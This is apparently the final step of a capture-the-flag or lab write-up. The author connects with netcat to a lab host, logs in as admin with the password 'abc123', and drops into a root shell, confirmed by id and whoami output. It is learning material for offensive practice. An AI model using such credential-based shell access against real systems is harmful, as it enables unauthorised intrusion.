 Login with the correct username and password.
```bash
$ nc 10.10.74.250 8000
admin
Password:
abc123
Welcome Admin!!! Type "shell" to begin
shell
# id
id
uid=0(root) gid=0(root) groups=0(root)
# whoami
whoami
root
```

Done!.
